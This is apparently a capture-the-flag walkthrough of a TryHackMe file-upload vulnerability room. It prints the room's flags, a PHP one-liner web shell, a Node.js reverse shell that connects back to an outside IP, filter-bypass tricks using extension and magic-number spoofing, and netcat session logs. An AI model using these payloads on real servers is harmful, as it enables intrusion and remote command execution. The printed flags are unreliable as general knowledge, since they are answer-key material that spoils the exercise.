

The ability to upload files to a server has become an integral part of how we interact with web applications. Unfortunately, when handled badly, file uploads can also open up severe vulnerabilities in the server.

### Overwriting Existing Files

Open your web browser and navigate to `overwrite.uploadvulns.thm`. Your goal is to overwrite a file on the server with an upload of your own.

#### What is the name of the image file which can be overwritten?

```
mountains.jpg
```

if no precautions are taken, we might be able to overwrite existing files on the server with a file with the same name.

<br>

#### Overwrite the image. What is the flag you receive?

```
THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}
```



<br>

### Remote Code Execution

There are two basic ways to achieve RCE on a webserver when exploiting a file upload vulnerability: `webshells` and `reverse/bind shells`.

Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

#### Run a Gobuster scan on the website using the syntax. What directory looks like it might be used for uploads?

```
/resources
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shell.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 334] [--> http://shell.uploadvulns.thm/resources/]
/assets               (Status: 301) [Size: 331] [--> http://shell.uploadvulns.thm/assets/]
```

<br>

#### Get either a web shell or a reverse shell on the machine. What's the flag in the `/var/www/ ` directory of the server?

```
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```

I created a file called `webshell.php` and uploaded to the website in order to get a webshell on the machine.

`echo '<?php echo system($_GET["cmd"]); ?>' > webshell.php`


after uploading the file, navigate to `/var/www` directory and list files and directory by typing the following command on the browser:

`http://shell.uploadvulns.thm/resources/webshell.php?cmd=cd%20/var/www;%20ls;`


As we can see, there's the flag.txt file.


<br>

#### Filtering

Up until now, we have been ignoring the counter-defences employed by web developers. Every website so far has been completely insecure. From here on out, we'll be looking at some of the defence mechanisms used to prevent malicious file uploads.

**_client-side_** filtering is trivially easy to by pass because the filtering is happening on our computer. client-side filtering by itself is a highly insecure method.

**_server-side_** filtering tends to be more difficult to by pass, as you don't have the code in front of you.

Different kinds of filtering:

- Extension Validation
- File Type Filtering
- Magic Number Validation
- File Length Filtering
- File Name Filtering
- File Content Filtering

<br>

What is the traditionally predominant server-side scripting language?

```
PHP
```

<br>

When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)?

```
whitelist
```

<br>

[Research] What MIME type would you expect to see when uploading a CSV file?

```
text/csv
```


<br>

### Bypassing Client-Side Filtering

There are four easy ways to bypass your average client-side file upload filter:

1. _Turn off Javascript in your browser_
2. _Intercept and modify the incoming page_
3. _Intercept and modify the file upload_
4. _Send the file directly to the upload point_

Navigate to `java.uploadvulns.thm` and bypass the filter to get a reverse shell.

#### What is the flag in `/var/www/`?

```
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
```

Let's use Gobuster to locate the upload directory name first by running the following command:

`gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://java.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://java.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/images/]
/assets               (Status: 301) [Size: 329] [--> http://java.uploadvulns.thm/assets/]
```

<br>


The website upload only accepts MIME type of `png` files. So I am going to create a file called `hello.png` but it contains the Pentest Monkey's `php-reverse-shell` code.

<br>


<br>

Before hitting the upload button, make sure `Intercept is on` on Burpsuite to capture the request and we're going to change the MIME type back to `text/x-php` and the file extension from `.png` to `.php`.


<br>

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443
listening on [any] 443 ...
connect to [10.6.67.243] from overwrite.uploadvulns.thm [10.10.41.54] 54590
Linux a73553061b26 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:52:35 up  4:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /var/www
$ ls
flag.txt
html
$ cat flag.txt
THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}
```

<br>

#### Bypassing Server-Side Filtering: File Extensions

What is the flag in `/var/www/`?

```
THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}
```

First let's use Gobuster to locate the upload directory name. The directory name turned out to be `privacy`.


<br>

I tried uploading `.png` file and it was accepted. So I tried uploading the reverse-shell-php file with the name of `hello.png.php` but it was denied by saying it's an invalid type format. So I tried `hello.php5` and it was accepted!


<br>

After the file was uploaded, I navaigated to the `/privacy`. Before opening up the reverse-shell file, I had run the netcat command thats running on port 1234 to capture and receive the reverse shell connection.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 56504
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:50:14 up  1:26,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /var/www
$ ls
flag.txt
html
$ cat flag.txt
THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}
```

<br>

### Bypassing Server-Side Filtering: Magic Numbers

Head to magic.uploadvulns.thm -- it's time for the last mini-challenge.

Bypass the magic number filter to upload a shell. Find the location of the uploaded shell and activate it. Your flag is in /var/www/.

Grab the flag from /var/www/

```
THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}
```

<br>

The website only accepts GIF type files.


<br>

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ file shell.php
shell.php: PHP script, ASCII text
```

As you can see, our current shell has the type of PHP script. In order to bypass the magic number filtering, we have to add the GIF magic number to the top of our shell.php file.

GIF has a couple magic numbers but I am going to use `47 49 46 38 37 61`.

Let's open up the reverse shell script and add four random characters on the first line. This is just a temporary placeholder so these characters do not matter.


<br>

Let's open up the file in `hexeditor` now. The first line has value of `41 41 41 41` which represents the values AAAA we put on the first line of the file. Let's change them to JPEG magic numbers, `47 49 46 38 37 61`


<br>

If we run the file command again to see the file type, it now says it's GIF type.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ file shell.php
shell.php: GIF image data, version 87a, 28735 x 28776
```


<br>

Let's upload the file now and instead of navigating to `/graphics` (because directory indexing is turned off for this website), we are going to access the shell directly using its URI like the following:

`http://magic.uploadvulns.thm/graphics/shell.php?cmd=whoami;`

As you could see from the below, I was running the netcat server to capture the reverse shell and eventually got the flag.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 38598
Linux 94d79a333b8d 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 04:35:03 up  2:11,  0 users,  load average: 0.00, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /var/www/
$ ls
flag.txt
html
$ cat flag.txt
THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}
```

<br>

### Challenge

For this task, we are given a black-box file upload challenge to complete.

Head over to jewel.uploadvulns.thm.

Take what you've learned in this room and use it to get a shell on this machine. As per usual, your flag is in /var/www/.

Hack the machine and grab the flag from /var/www/

```
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}
```

<br>

Using Burpsuite, I captured the request on the website and the backend is running Javascript, as we can see from the `X-Powered-By: Express`.


Also the static `upload.js` file shows that the upload only accepts `jpg or jpeg` file format.


<br>

Since we found the backend is running javascript, we need the javascript version of rever shell script not the PHP that we've been using so far.

```js
(function () {
  var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(8080, "10.17.26.64", function () {
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/; // Prevents the Node.js application form crashing
})();
```

<br>

It seems like we can bypass three checks from the client-side: file size, magic number, and file extension. I am just going to delete all of the checks.


<br>

Now the file upload has been successful.


<br>

I've already found the relative directories for image uploads by using the gobuster command that I've been using for this room.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://jewel.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/Assets               (Status: 301) [Size: 179] [--> /Assets/]
/Modules              (Status: 301) [Size: 181] [--> /Modules/]
/Admin                (Status: 200) [Size: 1238]
```

<br>

Navigating to other directories are not permitted except the `/admin`. Take a look at the text on the admin page: `As a reminder: use this form to activate modules from the /modules directory`. I already know that images are stored in `/content` not `/modules`. To access the images I uploaded on /content, I need to specify `../content/{the file of the image}.jpg` as we already saw in the gobuster output, both directories are in the same level.


<br>

Now, run another gobuster command against the `/content` directory with the wordlist provided plus `-x` command to look for jpg files.


<br>

As we can see, gobuster output changed our uploaded file name to `FNK.jpg` notice its size, it's realtively and small compared to to other files. Let's run our reverse-shell on the admin page.


<br>

the netcat successfully captured the reverse-shell. I was able to change directory to `/var/www` and capture the flag.


